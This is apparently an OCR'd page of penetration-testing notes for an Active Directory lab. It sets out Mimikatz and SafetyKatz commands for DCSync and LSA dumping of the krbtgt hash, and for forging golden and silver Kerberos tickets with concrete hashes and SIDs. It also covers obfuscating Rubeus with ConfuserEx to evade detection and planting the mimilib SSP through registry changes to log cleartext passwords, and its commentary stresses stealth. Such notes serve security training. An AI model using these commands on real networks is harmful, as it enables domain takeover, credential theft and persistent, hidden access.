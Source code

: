 # To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain:
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'`
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"

### Obfuscation
For Rubeus.exe, use ConfuserEx (https://github.com/mkaring/ConfuserEx) to obfuscate the binary.


# Execute mimikatz on DC as DA to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'–Computername dcorp-dc


# Golden ticket :
`Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"`z *Explanation : name of the module,Username for which the TGT is generated (use an active domain admin with high logon count),Domain FQDN,SID of the domain,NTLM (RC4) hash of the krbtgt account or Use /aes128 and
/aes256 for using AES keys which is MORE SILENT,Optional User RID (default 500) and Group default 513 512 520 518 519),Injects the ticket in current PowerShell process - no need to
save the ticket on disk(Stealthier due the time validation time taken to validite the TGT),Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future, Optional ticket lifetime (default is 10 years) in minutes.The default AD setting is 10 hours = 600 minutes,Optional ticket lifetime with renewal (default is 10 years)in minutes. The default AD setting is 7 days = 100800*

# Silver ticket (Similar command can be used for any other service on a machine.Which services? HOST, RPCSS, HTTP and many more):
`Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62ff22 /user:Administrator /ptt"'` The only diff with the command above is this : /target:dcorp-dc.dollarcorp.moneycorp.local Target server FQDN, /service:cifs The SPN name of service for which TGS is to be created)

# Mimikatz provides a custom SSP - mimilib.dll. This SSP logs local logons, service account and machine account passwords in clear text on the target server. Drop the mimilib.dll to system32 and add mimilib to HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages. All local logons on the DC are logged to
C:\Windows\system32\kiwissp.log
`$packages = Get-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty
HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security
Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name
'Security Packages' -Value $packages`
